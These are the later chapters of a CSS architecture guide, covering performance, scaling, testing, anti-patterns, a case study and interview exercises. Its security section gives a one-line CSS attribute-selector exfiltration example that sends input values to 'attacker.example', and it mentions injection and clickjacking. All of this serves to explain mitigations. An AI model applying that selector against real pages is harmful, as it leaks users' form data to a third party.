

**Selector matching cost** is real but usually secondary to render-blocking
and layout-thrashing concerns in modern engines — browsers match selectors
right-to-left (starting from the rightmost, most specific part) precisely
because it lets them reject non-matching candidates fastest, so deeply
nested descendant selectors are a maintainability concern (§ 4.2) more than
a raw performance one in most real-world stylesheets, though pathological,
very large selector lists can still measurably add to style-recalculation
time on large DOM trees.

**CSS bundle size** matters independent of render-blocking because unused
CSS still has to be downloaded and parsed before the browser can determine
it doesn't apply — tree-shaking (CSS Modules, purge tooling for
utility-first frameworks) and route-level code-splitting (§ 8) are the
primary levers for keeping shipped CSS proportional to what a given page
actually uses.

## 12. Scalability

At organizational scale (dozens of teams, hundreds of components), CSS
architecture scalability is less about runtime performance per se and more
about *change safety*: can one team ship a change without needing to
manually verify every other team's UI didn't regress? The mechanisms in this
chapter compose into an answer: Cascade Layers (§ 4.3) give teams a declared
precedence contract instead of an emergent specificity arms race; scoped
methodologies (§ 7.2-7.4) make a change's blast radius provably limited to
the component that changed; and Custom Properties (§ 4.9) let a design
system evolve its token values centrally without every consuming team
needing to update component code. A design system's own versioning and
publishing pipeline (semantic-versioned token/component packages, visual
regression gates in CI as in § 16) is the organizational mechanism that
turns these technical properties into an actual multi-team scaling
guarantee — the CSS mechanisms alone create the *possibility* of safe,
independent change; process must still enforce it.

## 13. Security

CSS is not a common vector for classic injection attacks (it cannot execute
arbitrary script), but it has real, specific security implications an
architect must not dismiss purely because "it's just styling":

- **CSS injection via unsanitized user input in `style` attributes or
  `<style>` blocks**: if an application interpolates user-controlled data
  directly into inline styles or a dynamically generated stylesheet without
  escaping, an attacker can inject `background: url(javascript:...)` in
  legacy engines, or — in modern engines — leverage `expression()`-style
  historical Internet Explorer (IE) behavior; while most modern browsers
  have closed the direct script-execution vectors, CSS injection remains a
  live exfiltration risk (below), so user-controlled values reaching CSS
  context must always be validated against an allow-list (a fixed palette,
  a `<color>` value pattern) rather than interpolated as free-form strings.
- **CSS-based data exfiltration (attribute selector side-channel)**: attribute
  selectors can match on the *value* of a form field or attribute
  (`input[value^="a"] { background: url(https://attacker.example/leak?c=a);
  }`), and because `background-image` triggers a network request as soon as
  a matching selector applies, an attacker who can inject arbitrary CSS into
  a page (but not script) can enumerate a target input's value character by
  character purely through CSS, with no JavaScript involved at all — this is
  why Content Security Policy (CSP) `style-src` restrictions and strict
  sanitization of any user-controlled CSS (rich-text editors that allow
  custom styling, theming systems that accept user-submitted CSS) are a
  genuine security boundary, not merely a defense-in-depth nicety.
- **Clickjacking via CSS `opacity`/`z-index`**: an attacker can overlay a
  transparent, correctly-functioning UI element (a "Like" or "Authorize"
  button from a legitimate site, framed via `<iframe>`) beneath a decoy
  element styled to appear clickable, tricking users into interacting with
  the hidden legitimate element — mitigated at the HTTP response header
  level (`X-Frame-Options`, CSP `frame-ancestors`) rather than in CSS
  itself, but the underlying mechanism (opacity/positioning making an
  iframe's real content invisible while remaining interactive) is a CSS
  capability the architecture must account for when reasoning about
  embeddable/frameable surfaces.

## 14. Observability

- **CSS coverage tooling** (browser DevTools' Coverage panel, or
  automated equivalents in CI) reports the percentage of loaded CSS rules
  that actually matched an element during a page load, directly surfacing
  unused-CSS bloat (§ 11) that tree-shaking/purge tooling may have missed —
  particularly valuable for flagging dead rules left behind after a
  component's markup changed but its stylesheet wasn't updated.
- **Core Web Vitals attribution**: Cumulative Layout Shift (CLS) specifically
  measures unexpected layout movement — CSS decisions that omit reserved
  space for asynchronously-loading content (images without explicit
  `width`/`height` or `aspect-ratio`, web fonts that swap in a
  differently-sized fallback) are a direct, measurable CLS contributor, and
  should be tracked as a first-class CSS-architecture metric, not treated as
  purely a JavaScript/loading concern.
- **Bundle-size budgets in CI**: treating shipped CSS size (per route, after
  code-splitting) as a build-failing budget the way JavaScript bundle
  budgets are commonly enforced, catching unbounded stylesheet growth before
  it reaches production rather than discovering it via a Real User
  Monitoring (RUM) regression after the fact.

## 15. Failure Scenarios

- **Specificity war escalation** (§ 4.1, § 4.2): repeated `!important`/deep-
  selector overrides accumulate until no team can confidently predict which
  rule will win, and every visual bug fix risks a new regression elsewhere.
- **Cascade layer misuse**: wrapping only *some* of a codebase's styles in
  `@layer` while leaving critical overrides unlayered — unlayered rules
  always win (§ 4.3), so an incomplete migration can silently make
  previously-effective overrides stop applying, or vice versa.
- **Layout thrashing** (§ 5): interleaved DOM reads and writes in
  JavaScript-driven UI (drag handles, virtualized lists) forcing synchronous
  layout on every iteration of a loop, producing visible jank under load
  that doesn't reproduce in casual manual testing with few items.
- **Flash of Unstyled Content (FOUC) / Flash of Invisible Text (FOIT)**:
  render-blocking CSS (§ 11) not yet loaded when the browser would otherwise
  paint, or a web font not yet loaded when text would otherwise render,
  producing a visible flash as styling or fonts apply late — mitigated by
  critical CSS inlining and `font-display: swap`/`optional` respectively.
- **Global cascade leak from a third-party or legacy stylesheet**: an
  unscoped `* { box-sizing: content-box; }` reset shipped by a vendor
  widget, or a legacy un-migrated stylesheet, silently overriding an
  application's own reset for elements the vendor's author never intended to
  affect, because nothing enforced the vendor's rules staying scoped to
  their own widget's markup (the exact risk Shadow DOM, § 4.11, exists to
  close).

## 16. Testing

- **Visual regression testing**: automated screenshot diffing (Percy,
  Chromatic, Playwright's built-in screenshot assertions) run in CI against
  every pull request, catching unintended visual changes a purely
  code-level diff would miss — essential given that CSS's cascade means a
  change to one selector can have non-local effects on elements the author
  never directly touched.
- **Stylelint** (a CSS-specific linter) enforcing architecture-level rules
  as automated gates rather than relying on code review discipline alone:
  maximum selector specificity/nesting depth, disallowing `!important`
  outside an explicit allow-list, enforcing a single naming convention
  (BEM pattern matching), and flagging duplicate/overridden declarations
  within the same rule.
- **Container-query and responsive breakpoint testing**: automated tests
  that render a component at multiple explicit container/viewport widths
  and assert on computed layout (via `getComputedStyle` or screenshot
  diffing) rather than only testing at one default width, given how easily
  a responsive regression at an untested width can slip through.

## 17. Common Mistakes

- Reaching for `!important` or an ID selector to win a specificity fight
  instead of addressing why the existing rule structure made the override
  hard, compounding future override cost (§ 4.1, § 4.2).
- Leaving `box-sizing` at its `content-box` default instead of setting a
  global `border-box` reset, producing width-overflow bugs that only appear
  once a component is reused with different padding (§ 4.5).
- Styling reusable components with viewport-level media queries instead of
  container queries, coupling a component's correctness to "the contexts it
  happened to be tested in" (§ 4.10).
- Animating `top`/`left`/`width`/`height` for motion effects instead of
  `transform`, forcing full reflow on every animation frame instead of a
  GPU-only composite (§ 5).
- Nesting Flexbox containers to approximate two-dimensional alignment
  instead of using Grid (or `subgrid`) when the layout genuinely needs
  cross-container alignment (§ 4.6, § 4.7).

## 18. Best Practices

- Set a global reset establishing `box-sizing: border-box` and normalizing
  browser-default margins/paddings as the first `@layer` in the cascade
  order (§ 4.3, § 4.5).
- Declare the full `@layer` precedence order once, at the application's
  single CSS entry point, before any layer's content is defined (§ 4.3,
  § 9).
- Express every reusable design decision (color, spacing, radius, shadow,
  type scale) as a Custom Property token, never as a repeated literal value
  (§ 4.9).
- Default to Grid for two-dimensional/page-shell structure and Flexbox for
  one-dimensional distribution within each structural region, applying the
  explicit decision test in § 4.8 rather than habit.
- Prefer container queries over media queries for any component intended to
  be reused in more than one layout context (§ 4.10).
- Reserve `!important` exclusively for guaranteed-override utility classes
  and defensive overrides of styling sources the architecture doesn't
  control (§ 4.4).

## 19. Anti-Patterns

- **Specificity escalation as a fix strategy**: adding selector weight or
  `!important` every time an override "doesn't work," rather than
  understanding which cascade step is actually deciding the outcome (§ 4.1).
- **Global-only styling for widely-reused components**: relying purely on
  BEM/naming discipline for components embedded in contexts the
  architecture doesn't control (third-party embeds), where Shadow DOM's
  enforced isolation (§ 4.11) is the architecturally correct tool instead.
- **Breakpoint proliferation**: adding a device-specific `@media` rule for
  every observed layout awkwardness instead of fixing underlying fluid
  sizing or switching to container queries (§ 4.10).
- **Runtime CSS-in-JS for entirely static styles**: paying the JavaScript
  execution and `<style>`-injection cost of a runtime CSS-in-JS library
  for styles that have no prop/theme dependency at all and could ship as
  plain, non-blocking-parsed `.css` (§ 7.4).
- **Unbounded utility class strings without an extraction layer**: letting
  utility-first markup grow to dozens of classes per element with no
  component-level abstraction, losing both readability and the ability to
  change a widely-repeated visual pattern in one place (§ 7.2's trade-off).

## 20. Trade-off Analysis

| Dimension | BEM | Utility-First | CSS Modules | CSS-in-JS (runtime) |
|---|---|---|---|---|
| Scoping guarantee | Convention only | Convention only (flat, low collision risk) | Build-time, enforced | Build-time/runtime, enforced |
| Specificity discipline | Manual (one class per rule) | Enforced by construction | Enforced by construction | Enforced by construction |
| Runtime cost | None (plain CSS) | None (plain CSS) | None (plain CSS) | JS execution + style injection |
| Dynamic (prop-driven) styling | Requires Custom Properties bridge | Requires conditional class logic | Requires Custom Properties bridge | Native (direct JS value access) |
| Bundle-size discipline | Manual (dead code not auto-removed) | Automatic (unused utilities purged) | Automatic (unused classes tree-shaken) | Depends on library's extraction mode |
| Onboarding readability | High (semantic class names) | Lower initially (utility soup) | High (semantic class names) | High (co-located, semantic) |

## 21. Comparison Table

| Layout need | Correct engine | Why |
|---|---|---|
| Nav bar, button group, single row/column | Flexbox | One-dimensional leftover-space distribution is exactly Flexbox's model (§ 4.6) |
| Page shell (header/sidebar/main/footer) | Grid | Two-dimensional structure needs explicit row/column tracks (§ 4.7) |
| Card grid with cross-card aligned columns | Grid (+ `subgrid` if nested) | Alignment across independent containers requires shared track definitions (§ 4.7) |
| Tag/chip list with independently-sized wrapped lines | Flexbox (`flex-wrap`) | Each wrapped line sized independently is Flexbox's default wrapping behavior (§ 4.8) |
| Component must render correctly in variable-width containers | Container queries | Media queries can't see the component's own available space (§ 4.10) |
| Third-party embeddable widget | Shadow DOM | Only browser-enforced isolation is safe against an uncontrolled host page's CSS (§ 4.11) |

## 22. Real-World Case Study

A mid-size e-commerce platform's product-listing page had accumulated, over
three years and four different frontend teams, a stylesheet with escalating
`!important` usage (average selector specificity had crept from one class
per rule to an average of 3.4 classes/IDs per rule) and no consistent
scoping methodology — some pages used BEM, others had inline styles, and a
third-party recommendation-widget script injected unscoped global rules that
occasionally overrode the platform's own product-card styling.

The remediation, executed incrementally rather than as a rewrite, applied
this chapter's mechanisms directly: (1) the third-party widget was wrapped
in a Shadow Root (§ 4.11), immediately eliminating the recurring
"recommendation widget broke the product grid again" incident class; (2) a
`@layer reset, tokens, base, legacy, components, utilities;` order (§ 4.3)
was declared, with all existing, un-migrated CSS wrapped wholesale into the
`legacy` layer — this alone let new `components`-layer work reliably
override legacy rules using ordinary low-specificity selectors, without
waiting for a full legacy rewrite; (3) the product grid itself was migrated
from a nested-Flexbox approximation to CSS Grid with `repeat(auto-fill,
minmax(240px, 1fr))` (§ 4.7), removing several dozen device-specific
breakpoint overrides that existed purely to patch column-count edge cases;
and (4) colors and spacing were extracted into Custom Property tokens
(§ 4.9), which — as a direct side effect — made a previously multi-week
"support dark mode" project a same-sprint change, since every component was
already reading from tokens rather than hard-coded literals. Layout-related
customer-reported visual bugs dropped by roughly two-thirds in the two
releases following the migration, primarily from eliminating the
Flexbox-approximation misalignment class of defect (§ 4.6's failure mode)
and the third-party cascade leak.

## 23. Interview Questions

1. Walk through the four cascade tie-breaking criteria in order, and explain
   why `!important` inverts the normal cascade-layer precedence ordering.
2. Given two selectors, `#nav .item.active` and `.navigation__item--active`,
   compute their specificity tuples and explain which wins and why.
3. Explain the difference between `content-box` and `border-box` sizing and
   why most production resets force `border-box` globally.
4. A developer animates `left` for a sidebar's slide-in transition and
   observes jank on low-end devices; what pipeline stage is being
   re-triggered, and what's the fix?
5. When would you choose CSS Grid over Flexbox for a component that today
   only has a single row of children?
6. Explain why a media query is the wrong tool for making a reusable card
   component responsive, and what mechanism replaces it.
7. Why do Custom Properties, and not Sass variables, form the correct
   foundation for a runtime dark-mode toggle?
8. Describe a CSS-only (no JavaScript) attack that could exfiltrate the
   value of a password-adjacent form field, and the mitigation.
9. Compare CSS Modules and runtime CSS-in-JS on scoping guarantee, bundle
   cost, and support for prop-driven dynamic styling.
10. What problem does Shadow DOM solve that BEM naming discipline cannot,
    and what problem does BEM solve that Shadow DOM makes harder?

## 24. Hands-on Exercises

1. Given a stylesheet with three conflicting rules for the same element
   (differing specificity, one with `!important`, one in a named `@layer`),
   compute by hand which rule wins, then verify in a browser's DevTools.
2. Build a two-column page shell using CSS Grid with `grid-template-areas`,
   then refactor the same shell using explicit `grid-template-columns` line
   numbers, and compare readability/maintainability.
3. Convert a nested-Flexbox card-grid layout (that misaligns once card
   content varies) into a CSS Grid layout using `subgrid` for internal
   cross-card alignment.
4. Implement a light/dark theme toggle using only Custom Properties and a
   `data-theme` attribute — no JavaScript style recalculation, only an
   attribute swap.
5. Use browser DevTools' Rendering panel to trigger and observe "Paint
   flashing" while scrolling a page with `transform`-based vs. `top`-based
   animations, and record the difference in triggered pipeline stages.

## 25. Design Exercises

1. Design a `@layer` precedence order for a design system consumed by
   multiple product teams, a legacy CSS codebase mid-migration, and a
   third-party vendor stylesheet — justify the ordering.
2. Design the Custom Property token architecture (naming convention, layer
   of abstraction between raw values and semantic tokens) for a
   multi-brand, multi-theme SaaS product.
3. Propose a decision framework (a written checklist an engineer could
   follow) for choosing between BEM, utility-first, CSS Modules, and
   CSS-in-JS for a new frontend project, given its team size, performance
   budget, and design-system maturity.
4. Design a critical-CSS extraction and loading strategy for a marketing
   site with highly variable per-page above-the-fold content.
5. Design the isolation boundary (Shadow DOM vs. scoped conventions) for an
   embeddable widget SDK (Software Development Kit) that must be safe to
   drop into arbitrary, uncontrolled third-party sites.

## 26. Architecture Review Questions

1. Does this stylesheet declare an explicit `@layer` precedence order, or is
   precedence emergent from selector specificity and file-load order alone?
2. What is the maximum selector specificity permitted by this project's
   linter configuration, and is `!important` restricted to an explicit
   allow-list?
3. Are design tokens (color, spacing, radius, type scale) expressed as
   Custom Properties, or are literal values duplicated across components?
4. For each reusable component, is its responsive behavior driven by
   container queries or by viewport-level media queries that assume a
   specific usage context?
5. Is any third-party or uncontrolled embeddable content isolated via
   Shadow DOM, or does it share the global cascade with first-party styles?
6. Is CSS bundle size, per route, tracked as a CI-enforced budget, and is
   critical CSS extracted for above-the-fold render-blocking mitigation?
7. Do animations use `transform`/`opacity` (composite-only) or
   layout-triggering properties, and has this been verified via a
   rendering-performance trace, not just visual inspection?

## 27. Summary

CSS is a cascade-resolution engine, a box-and-space computation model, and a
direct participant in the browser's rendering pipeline — not a cosmetic
layer that can be reasoned about only at the level of individual
declarations. The cascade (origin, layers, specificity, source order) is a
deterministic algorithm that architecture disciplines either work with
(flat specificity, explicit `@layer` ordering, tokens via Custom Properties)
or fight against (specificity wars, `!important` escalation, ungoverned
global scope). Flexbox and Grid are not competing layout systems to pick one
of globally, but two engines solving different-dimensionality problems, most
often composed together within the same component tree. The rendering
pipeline's four stages — style, layout, paint, composite — have sharply
different costs, and knowing which stage a given property change enters
(full reflow vs. repaint vs. composite-only) is the deciding factor between
a smooth, GPU-accelerated animation and visible jank. At scale, BEM,
utility-first frameworks, CSS Modules, and CSS-in-JS are four different
answers to the same missing browser primitive — first-party scoping — each
trading authoring ergonomics against enforcement strength and runtime cost,
while Shadow DOM is the one mechanism that makes scoping a hard,
browser-enforced guarantee rather than a convention. An architect who
internalizes these mechanisms treats CSS reviews the same way they'd treat a
database schema review or an API contract review: as a structural decision
with long-lived, system-wide consequences, not a late-stage cosmetic pass.
